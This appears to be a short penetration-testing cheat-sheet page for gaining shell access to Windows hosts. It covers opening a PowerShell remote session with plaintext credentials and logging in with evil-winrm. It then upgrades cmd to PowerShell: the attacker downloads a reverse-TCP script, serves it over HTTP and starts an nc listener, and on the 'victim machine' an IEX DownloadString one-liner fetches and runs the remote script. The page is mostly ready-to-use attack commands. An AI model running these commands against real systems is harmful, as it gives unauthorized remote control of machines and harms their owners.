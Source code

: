 ### Create PSSession

```powershell
$password = ConvertTo-SecureString "PASSWORD" -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential("USER", $password)
Enter-PSSession -ComputerName $TARGET -Credential $cred
```

#### evil-winrm is better

```shell
evil-winrm -i $TARGET -u $USERNAME -p $PASSWORD
```

###  cmd.exe to powershell.exe

On attacker machine:

```shell
wget https://github.com/ivan-sincek/powershell-reverse-tcp/blob/master/src/invoke_expression/original/powershell_reverse_tcp.ps1
# Change IP and PORT in script
python3 -m http.server # Run HTTP server or whatever 
rlwrap nc -lnvp $PORT #Run listener in other shell
```

On victim machine:

```shell
powershell IEX (New-Object Net.WebClient).DownloadString('http://$TARGET:$PORT/revshell.ps1')
```

![](Windows/Images/CmdToPowershell.png)

```powershell
set PATH=%PATH%;C:\xampp\php # Set path
```